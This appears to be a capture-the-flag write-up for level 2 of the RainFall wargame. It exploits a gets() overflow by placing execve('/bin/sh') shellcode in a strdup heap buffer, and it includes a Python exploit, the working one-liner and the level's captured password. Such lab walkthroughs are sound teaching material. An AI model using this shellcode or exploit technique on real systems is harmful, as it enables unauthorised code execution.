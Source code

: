 # Level 2

Here we also have a vulnerable `gets()` with a buffer overflow of 76 characters in. The difficulty this time is that we can't just give it a shellcode or use a ret2libc attack as the program will detect any return address starting with `0xb` and exit. We therefore can't directly use a stack address.

## Heap exploit

We'll try to inject this [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html), getting us a shell via `execve("/bin/sh")`.

To find the offset of EIP, we use a [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).
```shell
level2@RainFall:~$ gdb -q level2 
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) R
Starting program: /home/user/level2/level2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
Which tells us the offset is 80.

Conveniently, strdup is called at the end of the program, allowing us to store our buffer overflow in the heap, well outside the `0xb` range and call it directly. Our exploit will look like this:

`shellcode (28 bytes) | padding (80 - len(shellcode)) | address of this buffer in the heap (little-endian)`

### Finding the address of the buffer 
We now need to find the return address of `strdup()`, to do this we can either use `gdb` and inspect `eax` after the call to strdup, or more easily just use `ltrace`.
```shell
level2@RainFall:~$ ltrace ./level2 <<< "hello world"
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5)                     = 0xbffff70c
puts("hello world"hello world
)                                               = 12
strdup("hello world")                                             = 0x0804a008
+++ exited (status 8) +++
```
The return value of `strdup()` is `0x0804a008` here.

### Putting the exploit together
We now have everything to exploit our binary, let's put together our exploit string

```python
import struct

#https://shell-storm.org/shellcode/files/shellcode-811.html
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print (
	shellcode +
	"a" * ((76 + 4) - len(shellcode)) + # 52bytes of padding, after shellcode and for alignment
	struct.pack("<Q", 0x804a008) # The address of our shellcode in the heap
)
```

Now let's give this to program and keep a shell open with `cat`
```shell
level2@RainFall:~$ (python -c 'import struct; print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "a"*52 + struct.pack("<Q", 0x804a008)'; cat )| ./level2
1Ph//shh/bin°
             ̀1@̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
🥳

## Other solutions
Using a rop gadget could also help us bypass the check and run a ret2libc attack or shellcode.
